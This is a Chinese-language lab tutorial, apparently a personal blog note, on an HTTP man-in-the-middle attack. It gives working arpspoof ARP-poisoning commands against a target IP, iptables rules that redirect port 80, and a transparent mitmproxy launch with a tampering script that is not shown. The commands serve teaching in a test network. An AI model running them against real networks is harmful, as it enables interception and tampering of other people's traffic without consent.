

# 中间人攻击-http劫持与篡改

## 测试环境

- 系统：Arch Linux
- 工具：mitmproxy、arpspoof、iptables
- 网络：arp防护关闭，被攻击方未设置静态arp

## 中间人通道

> 内网使用arpspoof进行arp污染进而架起中间人通道
>
>
>
> 此处顺带一说，mac地址本身不是随意分配的，标准情况下mac地址的前三个字节代表其公司。（附：[厂商列表](http://standards-oui.ieee.org/oui/oui.txt)）
>
> 此处网卡mac地址可以看到：
>
> - 001500:Intel Corporate
> - 38539c:Apple, Inc.
> - 5cc999:New H3C Technologies Co., Ltd
>
> Ps：mac地址可以从软件层面上修改伪装，详情自行搜索

``` shell
# -i 为指定出口网卡，本笔记本的无线网卡为wlp2s
# -t 为指定投毒的ip地址，
# 后面尾随的10.10.30.1为要伪装的地址
# 以下命令含义为：
#    通过wlp2s0网卡向ip为10.10.30.8的机器进行arp污染：10.10.30.1对应的mac地址为wlp2s0网卡的mac地址
sudo arpspoof -i wlp2s0 -t 10.10.30.8 10.10.30.1
```

[](https://asciinema.org/a/308588)

## 篡改流量

### 攻击机准备

``` shell
# 重启iptables服务
sudo systemctl restart iptables
# 查看nat转发列表
sudo iptables -t nat -nvL
# 设置转发规则
sudo iptables -t nat -A PREROUTING -i wlp2s0 -p tcp --dport 80 -j REDIRECT --to-port 8080
# 查看是否设置成功
sudo iptables -t nat -nvL
# 使用mitm脚本启动mitmproxy（也可使用mitmdump或mitmweb启动，前端ui界面不一样）
sudo mitmproxy --mode transparent -p 8080 -s ~/Documents/sources/blog/mitm/mitm_demo.py
```

[](https://asciinema.org/a/308593?t=10)

### 靶机访问

靶机访问 http://taobao.com 即可（Ps：如果失败，先查看是否有本地301跳转到https://taobao.com)




